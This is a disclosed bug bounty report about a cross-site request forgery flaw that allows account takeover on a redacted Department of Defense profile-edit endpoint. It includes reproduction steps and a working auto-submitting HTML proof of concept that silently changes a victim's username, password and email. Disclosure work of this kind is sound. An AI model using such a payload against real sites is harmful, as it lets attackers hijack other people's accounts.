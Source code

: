 # CSRF leads to Account takeover

## Report Details
- **Report ID**: 2699029
- **URL**: https://hackerone.com/reports/2699029
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-09-04T20:16:44.630Z
- **Disclosed**: 2024-12-18T19:50:56.604Z

## Reporter
- **Username**: br0x1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
During my search in this domain I found it vulnerable to CSRF so I tried to escalate it Account takeover and I succeed

## Impact

Account takeover via CSRF

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Vulnerable domain and endpoint : https://██████████/account/profile/edit

1. Click on this URL: https://█████████/account/register and fill in the required fields.
2. You will be instructed to check your inbox for a verification email, but you can avoid this step and log in using the username and password you created on the registration page.
3. Navigate to this endpoint https://███████/account/profile/edit  and attempt to modify the first name and email and password.
4. Observe this in the history of Burp Suite: https://███/account/profile/edit.
5. You can notice there is no protection against CSRF on this endpoint.
6. Executed the proof of concept (POC), and it worked.

##POC
```
<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://████████/account/profile/edit" method="POST">

      <input type="hidden" name="username" value="hacker" />

      <input type="hidden" name="password" value="" />

      <input type="hidden" name="cpassword" value="" />

      <input type="hidden" name="email" value="mojejas248&#64;esterace&#46;com" />

      <input type="hidden" name="save" value="Save" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
